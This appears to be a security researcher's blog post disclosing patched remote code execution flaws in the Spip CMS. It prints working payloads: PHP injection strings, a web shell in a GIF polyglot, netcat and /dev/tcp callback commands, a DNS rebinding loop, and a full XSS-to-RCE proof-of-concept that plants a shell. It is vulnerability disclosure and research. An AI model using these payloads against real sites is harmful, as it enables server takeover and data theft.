

Hello there,
This is the second article dedicated to Spip 0-day research, if you haven’t read the first one, I recommend reading it first. Even though it’s not required to follow along, it’s always better to have the full context for a specific research. Here, I won’t detail again the setup process, we’ll just go through issues from the past, and the newly found issues!
Oh, and if you’re here wondering if these issues were generic enough to break into Root-Me again… Yup, they were! :)
I’ll keep this line from the first article: Welcome. To. Php.

Past research
This list definitely won’t be exhaustive as many issues are silently patched, and there is just too much content to cover it all. Therefore we’ll just focus on a few issues that reflect what can be found. If you want a more detailed list, head out to CVEdetails - Spip!
2009 - @cfreal_
Deadly and efficient, php code injection in a GET parameter, that is probably reflected later in an eval statement or dynamically generated php file.
/spip.php?page=poster&id_article=1'.system('pwd').'
2011 - @Blaklis_ & Matsuyama
No payload to give here, but after a quick chat, the main goal was to deface the site, which was done with an auth bypass and a stored xss.
Yet it’s interesting to know that Orange was (actually is on some subdomains, but shhh) relying on Spip!
2011 - EsSandre
A dead-simple example of file read, ahhh… 2011… I miss you!
/squelettes/script/protection_acces_http.php?file=../../../../../../../etc/passwd
2019 - @TheLaluka
A few XSS (leading to RCE), two SQLi (leading to RCE through session hijacking, admin hash cracking), and a post-auth remote code execution, once again, reflected php code in eval!
2020 - @Coiffeur0x90
Two examples of reflected php code inside eval statements. Any user can modify its own display properties or cookie values. If register is enabled, then it can even be considered as a preauth-rce.
2022 - @SpawnZii & Abyss-W4tcher
In the first article I wrote about Spip, my last words were something like this:
This patch isn’t right… Please someone, break it!
And someone did: @SpawnZii & Abyss-W4tcher! ^.^
They basically used the same bug, but extended the base64 payload with injected raw php code. Smart move, works like a charm! :)
/ecrire/?exec=article&id_article=1&_oups=TzoxOiJBIjoxOntzOjE6ImEiO3M6MzoiUG9DIjt9'"<?php system('id');?>
- https://spawnzii.github.io/posts/2022/07/how-we-have-pwned-root-me-in-2022/
- https://github.com/Abyss-W4tcher/ab4yss-wr4iteups/tree/master/SPIP%204.1.2%20Vulnerabilities
Fresh RCE | What you’re here for!
Preauth custom SSTI on icalendar generation
The first RCE I’ll introduce here, is one that I found quite some time ago, and it has been “patched” while updating the codebase, it’s not a security fix, it’s just… Random luck I guess!
Here’s the final payload, but what? Why? How?
/spip.php?page=ical_prive&statut='=='foo'){echo(42);};}else{system('id');};if(false){if('foo
In its custom templating engine, the Spip framework makes use of code snippets like </BOUCLE0><BOUCLE0 {PARAMS} >, this will be parsed in a specific way and populated. It seems safe in many ways as the populated variables aren’t supposed to be user controlled, and angle brackets < and > are escaped. But a code refactoring that happened in January 2018 changed the way statut was populated, and it was then possible to use an array merge taking place beforehand to takeover this variable. The template would then be rendered with user-controlled values. The fact that the content was placed directly in a php if condition allowed the execution of php code without angle brackets, it was only required to escape the single quotes, fix the context to have a valid php syntax within the eval call, and inject the right payload.
Content of ./spip/prive/ical_prive.html:
<BOUCLE0(AUTEURS){tout}{id_auteur}{lang_select}><?php
if ('[(#ID_AUTEUR|securiser_acces{#ENV{arg},ical})]' OR /* spip < 1.9 */
'[(#ID|securiser_acces{#ENV{cle},ical})]') {
?>#HTTP_HEADER{Content-Type: text/calendar}
#HTTP_HEADER{Content-Disposition: attachment; filename=#NOM_SITE_SPIP|textebrut|replace{\W,'_'}|concat{_prive.ics}}
#CACHE{0}
BEGIN:VCALENDAR
CALSCALE:GREGORIAN
--[SNIP]--
UID:message#ID_MESSAGE @ [(#URL_SITE_SPIP|filtrer_ical)]
DTSTAMP:[(#DATE_HEURE|date_ical)]
DTSTART:[(#DATE_HEURE|date_ical)]
CATEGORIES:<:info_message_2|filtrer_ical:>
URL:[(#URL_ECRIRE*{message, id_message=#ID_MESSAGE})]
<BOUCLE_message_n_a(AUTEURS auteurs_messages){lang_select=non}{id_message}>[(#ID_AUTEUR
|=={#ENV{id_auteur}}|?{ORGANIZER,ATTENDEE})]:[(#NOM|filtrer_ical)][ <(#EMAIL|filtrer_ical)>]
</BOUCLE_message_n_a>END:VTODO</BOUCLE_message_n>
<?php
if ('#0:STATUT' == '0minirezo') { // Injection here
?><BOUCLE_forum(FORUMS?){par date}{inverse}{tout}{statut="prop"}>
--[SNIP]--
Once rendered, the template gave the following php code:
--[SNIP]--
<?php
if ('[(#ID_AUTEUR|securiser_acces{#ENV{arg},ical})]' OR '[(#ID|securiser_acces{#ENV{cle},ical})]') {
if (''=='foo'){
echo(42);
}
} else {
system('id');
};
if(false){if('foo' == '0minirezo') {
--[SNIP]--
What can be seen here is that this injection is powerful enough so we can bypass the securiser_acces check by closing the initial if statement and appending our payload after all the security checks failed!
curl -gsk "http://127.0.0.1/spip.php?page=ical_prive&statut=%27%3D%3D%27foo%27%29%7Becho%2842%29%3B%7D%3B%7Delse%7Bsystem%28%27id%27%29%3B%7D%3Bif%28false%29%7Bif%28%27foo" | grep uid=
# }?></BOUCLE0><BOUCLE0(AUTEURS){tout}{id_auteur}{lang_select}>uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),998(docker)
Patch: https://github.com/spip/SPIP/commit/71a7d1353ae8ff8335db4051df922276109a4a62
I’m not sure about its current exploitability, the Spip team says it’s safe now, I took their word and did not spend more time on it.
It is to note that this endpoint is visible from the admin/author interface, but it’s not referenced without authentication. Moreover, for some reasons it wasn’t catched by my numerous crawls. I found it while being logged-out, with a custom wordlist of every existing file (find . -type f -iname "*.php") and every word (grep -hrioP '[a-zA-Z0-9_]+' | sort -uV -o spip-words.lst) I could find in the repo matched against the main parameters of this application (extracted with my crawler). The wordlist was generated with the source of the website after some time being in use to take into account custom content, user-related dynamically generated variables, end cache-files written to disk.
Postauth email content eval
This one is quite easy to trigger, but doesn’t work at every try. I’m not really sure why, most likely caching in place, or rate-limit on the number of emails sent.. Might also be related to the job in charge of sending emails, but same here, I did not investigate further.
- Login as author
- Create section that will contain our article
- Create article with the title:
<?php system("id | nc 127.0.0.1 8000");?> - Change article status from draft to evaluation
- Enjoy your RCE!
It is to note that the RCE might be a blind one depending on your setup, the command result can be sent to your public IP or even received by email! :D
Fun fact: I knew that Spip really suffers from too many evals, so instead of reading code, I just sent similar payloads all over the place, and used my fork of php that contains builtin introspection, this tool should be made public for Rump In Rennes in October 2022! ;)
It took only a few forms to trigger the eval statement with the unsanitized title and content reflected in the evaled content.
Here are the screenshots of the same issue exploited (WITH THEIR CONSENT) on Root-Me!
Initial article creation and status change:
Email received for the status change:
DNS callbacks for the executed payload:

Postauth code injection in MediaBox as a WebMestre
This RCE is mostly useless because as a webmestre (read superadmin), it is already possible to upload new modules and get code execution this way, but hey, it’s still a post-auth RCE bug that qualifies! :)
While visiting /ecrire/?exec=configurer_mediabox, it was possible to change the appearance of images on the website for all users. Many parameters suffered from the same code injection. This attack can be done from the browser, it only requires the attacker to change the width for pictures from 600px to 600px";//<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); }?>. Then, visit the following page: /ecrire/?exec=navigation&menu=menu_edition&cmd=id
Patch: https://git.spip.net/spip/mediabox/commit/d3f311ce800d533053bc66b357e26881d930bcc7
One more cool trick is that even though this is only reachable as a webmestre, if an attacker is able to read files on the remote server, leaking the site secret key is enough to forge the same payload and submit it with author rights! But it’s patched now, so this was a cool trick.. :x
Injection point in the MediaBox page:
Postauth php file upload // t0
Hey folks! It seems it’s my turn to introduce another RCE here!
After some time spent digging around and finding a few XSS where inputs were not filtered correctly, I decided to search for more exciting vulnerabilities.
There’s an upload functionality available on the Spip panel, and I love to spend time on this kind of feature. So I started to test it and quickly found an XSS when hiding javascript code inside an SVG picture, but hey, this is not enough!
It was possible to upload PHP files as well, but the checks made on the server side were good enough to prevent php execution, and render them as text, so no RCE there. But we saw that it was possible to inject javascript inside an SVG file, so why can’t we try to inject PHP code inside a picture?
Spip accepts SVG, JPEG, GIF and PNG formats. After trying classic techniques, a friend of mine (thanks to Semtex) suggested that I take a look at polyglot files.
Indeed, there are plenty of ways to hide PHP code inside a picture! After finally finding one way to do it successfully on Spip, I was then able to do it using various picture formats generated with multiple techniques.
Let’s introduce the GIF comment extension section which (finally!) leads to an RCE!
One of the GIF89 extension types is the comment extension. This allows you to embed ASCII text in a GIF file, and is sometimes used to include an image description, image credit, or other human-readable metadata such as the GPS location of the image capture.
The first byte is the extension introducer which is 0x21. The next byte is always 0xFE which is the comment label. Then we jump right to the data sub-blocks containing ASCII character codes for your comment. The final byte, 0x00, indicates a sub-block with zero bytes, which is in fact the end of the block.
More information on the GIF file format here:
http://giflib.sourceforge.net/whatsinagif/bits_and_bytes.html#comment_extension_block
Let’s examine our malicious file’s content:
00000000 47 49 46 38 39 61 01 00 01 00 00 ff 00 2c 00 00 |GIF89a.......,..|
00000010 00 00 01 00 01 00 00 02 00 21 fe 26 3c 3f 70 68 |.........!.&<?ph|
00000020 70 20 73 79 73 74 65 6d 28 24 5f 53 45 52 56 45 |p system($_SERVE|
00000030 52 5b 27 48 54 54 50 5f 54 30 27 5d 29 3b 3f 3e |R['HTTP_T0']);?>|
00000040 00 0a |..|
You can see that it’s a valid GIF file, it starts the comment extension block (0x21FE), specifies the size of the block (0x1D == 29 in decimal), and ends it using 0x00. So what happens if PHP code is written inside the comment extension’s data sub-blocks in a GIF file?
As double extensions were allowed on Spip, this leads to our Holy Grail!
We first upload our payload at /ecrire/?exec=article_edit&new=oui, and then navigate to /IMG/gif/image.php.gif. All we have to do is to add a custom header t0 with the command to execute on the server.
curl http://127.0.0.1/IMG/gif/image.php.gif -H "t0: whoami"
# http
I was able to hide the payload and exploit the vulnerability using PNG with IDAT and PLTS chunks, GIF with comments and global color table, etc.
If you are interested in this kind of exploitation, here are some very nice resources I found:
- https://blog.isec.pl/injection-points-in-popular-image-formats/
- https://virtualabs.fr/Nasty-bulletproof-Jpegs-l.html
- https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
Patches:
- https://git.spip.net/spip/spip/commit/1cf91def15966406ddd0488cf9d1ecd1ae82d47a
- https://git.spip.net/spip/spip/commit/1cf91def15966406ddd0488cf9d1ecd1ae82d47a
Bonus - DNS Rebinding on the file upload feature // t0
Sorry if you only want to hear about RCEs, this is not one of them! But it’s still a cool one in my opinion, which can lead to juicy findings depending on the environment used! :)
When using the file upload functionality, it is also possible to specify an URL. First thing we want to try in this case is an SSRF. But looking at the source code, there’s a blacklist related to local IPs (127.0.0.1, and addresses within the A/B/C classes). Moreover, the server resolves the URL before checking if it does not belong to one of these classes (function valider_url_distante in ecrire/inc/distant.php):
However, once the check is passed, another request is made to download the file, and this time without any security check left. That’s where the DNS rebinding technique can be used!

DNS rebinding is an attack in which the attacker initiates repeated DNS queries to a domain under their control.
The first query returns a valid response that passes security checks, while subsequent queries return a malicious response that targets the internal network. Thus, it is possible to initiate a first request pointing to an URL/IP authorized by the application, and then the second to an unauthorized URL/IP.
During the first check, the response points to a public IP address, then when the download is done, it points to 127.0.0.1.
I was first able to exploit it by sending multiple requests to an URL crafted thanks to online DNS rebinding services, then I found a very nice tool to automate the this attack and control the process without external dependencies: dnschef
Git clone it, replace the dnschef.py with this one. Then it’s as easy as this:
while true; do
./dnschef.py --interface <ip_listening_dns_request> --fakedomains <domain_controlled> --fakeip 8.8.8.8 --count 2
./dnschef.py --interface <ip_listening_dns_request> --fakedomains <domain_controlled> --fakeip 127.0.0.1 --count 2
done
It will resolve 2 times the public IP, then 2 times 127.0.0.1 then public IP again, looping forever.
Small lalu-trick here, if the site uses MySQL without authentication “because it listens on the loopback only”, RCE can be achieved using this DNS debinding to have a mixed-protocol SSRF. It will first push some garbage bytes to MySQL which will whine a bit, but if you have SQL commands surrounded by newline bytes, they will be executed. So it can be used to peek and poke in the database, leading to remote code execution! :}
Some thoughts
SQLI == RCE
If you have an SQL injection on Spip, it is enough to:
- List the users, find who is the webmestre and the associated email
- Use the password reset feature (no bug required)
- Use the SQL injection to read the secret code used to verify the reset request
- Change the webmestre’s password
- Login as a webmestre and upload a new module that includes attacker controlled code
So any SQL has the same impact as a direct RCE.
File read == RCE
Reading files also has a deep and powerful impact.
If the site uses SQLite, as explained earlier, it’s an instant game-over as the attacker can retrieve password reset tokens.
If the site uses a regular SQL database, it’s still possible to read the site secret key and forge evil payloads at many places. I won’t give details here as it’s not something they can really protect against. But if you need it someday, now you know it’s doable! :)
XSS to RCE
Any stored XSS that can be triggered without overcomplicated social engineering should also be considered as an “almost direct RCE”.
- Store your XSS payload
- The XSS payload must:
- Verify that only webmestre / admins are targeted
- Make the async requests from the webmestre or admin session
- Create a new admin user
- With the newly acquired admin account, upload a backdoored module
Here is the code I wrote something like 2 years ago to exploit the MediaBox issue through an XSS. The code is a bit messy but it works! :)
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>PoC XSS to RCE Spip 3.3-dev</title>
</head>
<body>
<script>
fetch("ecrire/?exec=configurer_mediabox")
.then(res => {
return res.text();
})
.then(page => {
console.log(page);
page = page.replace(/(\r\n|\n|\r)/gm, "");
forms = page.match(/<form.*?<\/form>/g);
forms.forEach(form => {
if (form.includes('action="/ecrire/?exec=configurer_mediabox"')) {
form_configurer_mediabox = form;
}
console.log(form);
});
if (typeof form_configurer_mediabox == 'undefined') {
alert("Exploit failed");
}
console.log(form_configurer_mediabox);
dom = new DOMParser().parseFromString(form_configurer_mediabox, "text/html");
form = new FormData(dom.forms[0]);
payload = "\";//<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); }?>";
form.set("splash_width", form.get("splash_width") + payload);
fetch("/ecrire/?exec=configurer_mediabox", {
method: "POST",
body: form
});
cmd = "bash -c 'id > /dev/tcp/127.0.0.1/8000'"
fetch("/?cmd=" + cmd, {});
// Clean payload here if needed
});
</script>
</body>
</html>
Conclusion & Kudos
Now more than ever, I’m confident saying that not all languages are equal toward security.
Especially, languages that mix file system, code, and routing (php, asp, jsp, and others using dynamic reloading). They really seem to offer/expose an extra-wide attack surfaces that developers aren’t aware of.
We’re applying patches to fix the consequences of poor choices from the past (no shame here, they were relevant in their time!). If security really is a concern, maybe now is the right time to drop dangerous pieces of code and features we keep for retrocompatibility… Or switch to cleaner & safer language!
That being said, if you really want or need to keep using php but also require a decent level of security, please consider using Snuffleupagus! It gets rid of whole classes of bugs by patching php’s bytecode at the right places. The performance overhead is low, the security gain high, and reliability really seems to be kept in mind!
Kudos to all the past researchers, and a kind shout-out to t0 for sharing his findings with us!
Have a nice week, and see you soon for more tooling and research! ;)